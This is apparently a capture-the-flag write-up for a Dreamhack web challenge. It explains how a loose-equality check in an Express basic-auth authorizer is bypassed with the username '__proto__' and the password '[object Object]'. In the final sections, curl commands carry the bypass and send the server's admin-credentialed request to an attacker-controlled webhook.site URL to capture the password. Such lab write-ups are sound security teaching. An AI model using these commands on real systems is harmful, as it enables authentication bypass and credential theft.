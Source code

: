 # username:password@

This is a web challenge, which also gives us access to source code and Dockerfile, which is really useful and should give us the solution to the challenge upon inspecting the code

## The first pitfall
When doing this challenge first thing I did was to investigate the libraries used to see if I could find any weakness in them. 
First thing that I noticed was the use of a library called express-basic-auth

When searching for this, you may find that this library had it's last commit in 2021, and it's likely deprecated, noy only that there is a vulnerability related to it.

https://security.snyk.io/vuln/SNYK-JS-EXPRESSBASICAUTH-174345

Sadly, it has been patched since 1.1.7

```js
{
  "dependencies": {
    "express": "^4.21.2",
    "express-basic-auth": "^1.2.1",
    "node-fetch": "^2.7.0"
  }
}
```

But, if we read the details in snyk, this is a timing attack vulnerability CWE-208, also, if we read the github repo it clearly states to use the safe function safeComparte in favor of javascript's comparison

![alt text](./Pasted%20image%2020250223005100.png) 

If we read at the loginRequired function on the code, we can see that it does exactly as this

```js
const loginRequired = basicAuth({
  authorizer: (username, password) => users[username] == password,
  unauthorizedResponse: 'Unauthorized',
});
```

So, problem solved, right?
I thought so, but after putting together a quick python script to test the password. (16 hexadecimal values generated randomly)
 
```js
const genRanHex = size =>
  [...Array(size)].map(() => Math.floor(Math.random() * 16).toString(16)).join('');

const users = {
  'admin': genRanHex(16),
};

```

I realized that the time between requests was pretty much the same, probably due to the network overhead making significant noise for this kind of attack

## What now?
I had my doubt's on this method, mostly due to the network overhead but the solution seemed as clear as water, specially thanks to the code doing exactly what the library maintainer advised against

When reviewing once more the loginRequired middleware we can see that it has a loose type comparison, which means that JS will not check for a strict comparison, i.e. Will compare values with different types by converting the operands 
For instance

```js
true=="1"
true
```

This is due to true being converted into a number, 1 and then converted into string so it can be compared to "1".  An extra step is taken with objects, as they are converted into primitives before the comparison

With this, we can try to bypass the loginRequired function. Looking at the code there are two endpoints using this middleware

```js
app.get('/report', loginRequired, (req, res) => {
  const path = req.query.path;

  if (!path) {
    return res.send("<form method='GET'>http://<input name='path' /><button>Submit</button></form>");
  }

  fetch(`https://admin:${users["admin"]}@${path}`)
    .then(() => res.send("Success"))
    .catch(() => res.send("Error"));
});

app.get('/admin', loginRequired, adminOnly, (req, res) => {
  res.send(flag);
});

```

The report endpoint, which makes a request on behalf of the admin, and the admin endpoint that fetches the flag, given the fact that the admin endpoint requires extra validation for the admin user, and report already makes a request in behalf of the admin user, we'll focus on getting to the report endpoint

## Bypassing the authorization

The login required function accesses the property key given as the username to see if the value stored in the users object is in fact, the password

This allows us to access the object prototype, while we cannot make prototype pollution because there is no assignment in the code, we can still make a comparison against it

### The object prototype
JS has a feature where all objects inherit from the same base prototype by default, and included in the prototype chain. Prototypes are like blueprints, providing common properties and functions, while objects hold properties of their own.

![alt text](./Pasted%20image%2020250223170444.png) 


In this example we create a dog object from the animal object, we can see that despite not having a function toString, it inherits it from the object prototype, at the top of the prototype chain

![alt text](./Pasted%20image%2020250223170652.png) 


We have to ways to access the object prototype

dot notation
	object.\_\_proto\_\_
bracket notation
	object\[".\_\_proto\_\_"\]
	

With this we can craft the payload

```js
users["__proto__"]=="[object Object]"
true
```

As the conversion to string for the object prototype is the \[object Object\] string

##### A quick note
When trying this payload you should use curl, as modern web browser have disabled by default the use of basic html authentication

You should also url encode the brackets
``` bash
curl http://__proto__:%5Bobject%20Object%5D@host1.dreamhack.games:16001/report

<form method='GET'>http://<input name='path' /><button>Submit</button></form>

```

### CSRF
With the authentication bypassed, we can steal the admin credentials by sending a request to a server controlled by us 

``` bash
curl http://__proto__:%5Bobject%20Object%5D@host1.dreamhack.games:16001/report?path=webhook.site/fab3b4a5-1db1-459b-91cf-c758a3d7b0de

```

With that we are able to get the admin credentials and steal the password
![alt text](./Pasted%20image%2020250223183805.png) 


And fetch the flag

![alt text](./Pasted%20image%2020250223183923.png) 
